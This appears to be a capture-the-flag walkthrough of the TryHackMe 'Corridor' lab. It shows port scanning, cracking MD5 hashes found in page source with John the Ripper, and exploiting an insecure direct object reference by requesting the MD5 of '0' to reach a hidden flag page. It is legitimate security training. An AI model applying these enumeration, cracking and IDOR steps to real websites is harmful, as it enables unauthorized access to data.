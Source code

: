 # Corridor

## Introduction:

Welcome to my another writeup! In this TryHackMe [Corridor](https://tryhackme.com/room/corridor) room, you'll learn: IDOR vulnerability, or Insecure Direct Object Reference! Without further ado, let's dive in.

## Background

> Can you escape the Corridor?

> Difficulty: Easy

```
You have found yourself in a strange corridor. Can you find your way back to where you came?  

In this challenge, you will explore potential IDOR vulnerabilities. Examine the URL endpoints you access as you navigate the website and note the hexadecimal values you find (they look an awful lot like a hash, don't they?). This could help you uncover website locations you were not expected to access.
```

- Overall difficulty for me: Very easy

# Service Enumeration

As usual, scan the machine for open ports via `rustscan`!

**Rustscan:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Corridor]
└─# export RHOSTS=corridor.thm 
                                                                                                          
┌──(root🌸siunam)-[~/ctf/thm/ctf/Corridor]
└─# rustscan --ulimit 5000 -t 2000 --range=1-65535 $RHOSTS -- -sC -sV -oN rustscan/rustscan.txt
[...]
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 62 Werkzeug httpd 2.0.3 (Python 3.10.2)
|_http-server-header: Werkzeug/2.0.3 Python/3.10.2
|_http-title: Corridor
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
```

According to `rustscan` result, we have 1 port is opened:

Ports Open        | Service
------------------|------------------------
80                | Werkzeug httpd 2.0.3

## HTTP on Port 80

**First, let's add a domain to `/etc/hosts`: (Optional, but it's a good practice to do it.)**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Corridor]
└─# export RHOSTS=10.10.114.41

┌──(root🌸siunam)-[~/ctf/thm/ctf/Corridor]
└─# echo '$RHOSTS corridor.thm' | tee -a /etc/hosts
```

In the home page, it seems like it's an empty page. **But, if you look at the View-Source page (`Ctrl + U`):**

**View-Source:**
```html
    <map name="image-map">
        <area target="" alt="{Redacted}" title="{Redacted}" href="[{Redacted}](view-source:http://corridor.thm/{Redacted})" coords="257,893,258,332,325,351,325,860" shape="poly">
        <area target="" alt="{Redacted}" title="{Redacted}" href="[{Redacted}](view-source:http://corridor.thm/{Redacted})" coords="469,766,503,747,501,405,474,394" shape="poly">
        <area target="" alt="{Redacted}" title="{Redacted}" href="[{Redacted}](view-source:http://corridor.thm/{Redacted})" coords="585,698,598,691,593,429,584,421" shape="poly">
        <area target="" alt="{Redacted}" title="{Redacted}" href="[{Redacted}](view-source:http://corridor.thm/{Redacted})" coords="650,658,644,437,658,652,655,437" shape="poly">
        <area target="" alt="{Redacted}" title="{Redacted}" href="[{Redacted}](view-source:http://corridor.thm/{Redacted})" coords="692,637,690,455,695,628,695,467" shape="poly">
        <area target="" alt="{Redacted}" title="{Redacted}" href="[{Redacted}](view-source:http://corridor.thm/{Redacted})" coords="719,620,719,458,728,471,728,609" shape="poly">
        <area target="" alt="{Redacted}" title="{Redacted}" href="[{Redacted}](view-source:http://corridor.thm/{Redacted})" coords="857,612,933,610,936,456,852,455" shape="poly">
        <area target="" alt="{Redacted}" title="{Redacted}" href="[{Redacted}](view-source:http://corridor.thm/{Redacted})" coords="1475,857,1473,354,1537,335,1541,901" shape="poly">
        <area target="" alt="{Redacted}" title="{Redacted}" href="[{Redacted}](view-source:http://corridor.thm/{Redacted})" coords="1324,766,1300,752,1303,401,1325,397" shape="poly">
        <area target="" alt="{Redacted}" title="{Redacted}" href="[{Redacted}](view-source:http://corridor.thm/{Redacted})" coords="1202,695,1217,704,1222,423,1203,423" shape="poly">
        <area target="" alt="{Redacted}" title="{Redacted}" href="[{Redacted}](view-source:http://corridor.thm/{Redacted})" coords="1154,668,1146,661,1144,442,1157,442" shape="poly">
        <area target="" alt="{Redacted}" title="{Redacted}" href="[{Redacted}](view-source:http://corridor.thm/{Redacted})" coords="1105,628,1116,633,1113,447,1102,447" shape="poly">
        <area target="" alt="{Redacted}" title="{Redacted}" href="[{Redacted}](view-source:http://corridor.thm/{Redacted})" coords="1073,609,1081,620,1082,459,1073,463" shape="poly">
    </map>
```

**Those hexadecimal values looks like a hash!** (Hash has a fixed length.)

**Before we crack them, let's clean those up!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Corridor]
└─# curl http://corridor.thm/ -o hash.txt

┌──(root🌸siunam)-[~/ctf/thm/ctf/Corridor]
└─# cat hash.txt | cut -d '"' -f 4 | awk 'length($0) == 32' > cleaned_hash.txt
```

**Next, we can use `hash-identifier` to identify what is the hash algorithm:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Corridor]
└─# hash-identifier                            
[...]
 HASH: {Redacted}

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

It's **MD5 hash**!

**Armed with this information, we can crack them via `john`, or John The Ripper:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Corridor]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-MD5 cleaned_hash.txt
[...]
{Redacted}                (?)     
{Redacted}                (?)     
{Redacted}                (?)     
{Redacted}                (?)     
{Redacted}                (?)     
{Redacted}                (?)     
{Redacted}                (?)     
{Redacted}                (?)     
{Redacted}                (?)     
{Redacted}                (?)     
{Redacted}                (?)     
{Redacted}                (?)     
{Redacted}                (?)
```

Hmm? It's all numbers.

After I fumbling around, I found that **this is an IDOR vulnerability, or Insecure Direct Object Reference.**

> IDOR vulnerability allows you to access some pages where you shouldn't able to access.

Now, my theory is: **what if I MD5 hashed number `0`, and then use that hash to access something I shouldn't access?**

**To do so, I'll:**

- Echos out `0` **without the newline character**, and pipe it to `md5sum`, which generates a MD5 hash:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Corridor]
└─# echo -n '0' | md5sum
{Redacted}  -
```

- Go to the MD5 hashed value page:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Corridor]
└─# curl -s 'http://corridor.thm/{Redacted}' | html2text


****** flag{Redacted} ******
```

Yes!! We got the flag!

# Conclusion

What we've learned:

1. Hash cracking
2. IDOR vulnerability (Insecure Direct Object Reference)